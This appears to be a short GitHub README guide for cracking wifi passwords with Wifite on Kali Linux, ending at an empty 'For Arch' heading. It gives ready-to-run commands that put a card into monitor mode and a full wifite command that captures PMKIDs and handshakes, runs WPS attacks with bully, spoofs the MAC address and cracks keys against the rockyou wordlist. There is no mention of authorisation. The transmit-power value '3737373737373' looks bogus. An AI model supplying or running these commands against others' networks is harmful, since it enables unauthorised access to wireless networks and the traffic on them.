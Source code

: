 ----------
For Kali Linux

Identify the name of your card

```bash
iwconfig
```

Set interface down + monitor mode + activate interface + TX power (as root)
----------
Replace in the below script the wlan name of the wifi device that you like to use

```bash
sudo rfkill unblock all
```

```bash
sudo airmon-ng check kill && sudo service NetworkManager restart && sudo ip link set wlan0 down && sudo iw dev wlan0 set type monitor && sudo ip link set wlan0 up && sudo iw wlan0 set txpower fixed 3737373737373 && sudo service NetworkManager start
```

or

```bash
sudo ip link set wlan0 down && sudo iw dev wlan0 set type monitor && sudo ip link set wlan0 up && sudo iw wlan0 set txpower fixed 3737373737373 && sudo service NetworkManager start
```

or

```bash
sudo ip link set wlan0 down && sudo iw dev wlan0 set type monitor && sudo ip link set wlan0 up && sudo service NetworkManager start
```

You may also uncheck the box "Automatically connect to this network when it is avaiable" in nm-connection-editor. This only works if you have a saved wifi connection.



To start Wifite in Ninja Mode
----------

Excute the below command and it will automatically start to capture and decrypt the password.

----------
For Kali Linux + Ubuntu + Debian
----------

```bash
sudo wifite -i wlan0 --ignore-locks --keep-ivs -p 737 -mac --random-mac -v -inf --bully --pmkid --dic /usr/share/wordlists/rockyou.txt --require-fakeauth --nodeauth --wps --pmkid-timeout 737
```





----------
For Arch
----------
